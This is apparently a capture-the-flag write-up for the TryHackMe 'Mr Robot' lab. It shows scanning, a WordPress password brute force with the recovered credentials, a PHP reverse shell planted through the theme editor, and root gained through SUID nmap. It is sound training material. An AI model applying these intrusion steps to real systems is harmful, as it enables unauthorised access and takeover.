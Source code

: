 # MR Robot CTF

[Link to room](https://tryhackme.com/room/mrrobot)

echo machine-ip mrrobot >> /etc/hosts

### Enumeration
```nmap
# Nmap 7.80 scan initiated Tue Jun 23 06:44:06 2020 as: nmap -sC -sV -oN nmap.txt mrrobot.thm
Nmap scan report for mrrobot.thm (10.10.111.133)
Host is up (0.34s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 23 06:45:03 2020 -- 1 IP address (1 host up) scanned in 57.15 seconds
```

```bash
gobuster dir -u http://mrrobot.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```gobuster
Result of gobuster
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://mrrobot.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/23 07:05:02 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 301)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin
Progress: 5015 / 220561 (2.27%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/23 07:40:42 Finished
===============================================================
```

### Exploitation

Lets visit /robots directroy first
```
Conents of /robots:
User-agent: *
fsocity.dic
key-1-of-3.txt
```



#### 1. Key 1 ? 
> visit http://mrrobot.thm/key-1-of-3.txt to get the key

Now lets check others directories we found /readme, /license/ wp-admin 

##### /wp-admin

when entering admin in the username field i get incorrect username, so what if we try some names of character from the Mr.Robot series.

```
If we try elliot, we will get incorrect password, lets try to bruteforce it using the fsocity.dic we just found, 
but this wordlist contain 858,161 lines, so lets sort it out and remove duplicates
```

```bash
sort fsocity.dic | uniq > sorted_fsociety.dic
```

now lets bruteforce the wp-login

```bash
wpscan --url http://mrrobot.thm/wp-login -U elliot -P /path/to/sorted-wordlist -t 35
```

```
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - elliot / ER28-0652                                                                                                                               
Trying elliot / eps1 Time: 00:06:45 <==================================================================================> (5635 / 5635) 100.00% Time: 00:06:45
[!] Valid Combinations Found:                                                                               
 | Username: elliot, Password: ER28-0652  
                                                                 
[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.                                                                         
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up                                                 
[+] Finished: Tue Jun 23 08:17:33 2020                                                                 
[+] Requests Done: 6647                                                                                    
[+] Cached Requests: 6                                                                                   
[+] Data Sent: 2.028 MB                                                                  
[+] Data Received: 38.663 MB                                                       
[+] Memory used: 195.109 MB                                                
[+] Elapsed time: 00:12:47     
```

Now lets login and try to get a reverse shell
once logged-in, we can edit the 404 page to get reverse shell, to do that go to appearance ==> editor and edit 404 template and upload php reverse shell, if you don't have reverse shell you can download it from [Github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

after uploading reverse shell, visit http://mrrobot.thm/hello and run a netcat to listen to reverse shell
```bash
nc -lnvp 4444
````
```
listening on [any] 4444 ...
connect to [10.9.10.101] from (UNKNOWN) [10.10.123.133] 35844
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:51:50 up  1:52,  0 users,  load average: 0.00, 0.01, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

### Privilege Escalation

finding suid bit

```
daemon@linux:/home/robot$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper                                                                              
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper                                                                                 
/usr/lib/pt_chown                                                                                                                                            
daemon@linux:/home/robot$   
```

As from the hint we know its nmap lets abuse it

```
daemon@linux:/home/robot$ nmap -V
bash: nmap: command not found
daemon@linux:/home/robot$ /usr/local/bin/nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=0(root),1(daemon)
```

### Getting key 2 and key 3

```
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04787dd???????????????????????
# cd /home
# cd robot
# ls
key-2-of-3.txt  password.raw-md5
# cat key-2-of-3.txt
822c73956??????????????????????
# 
```
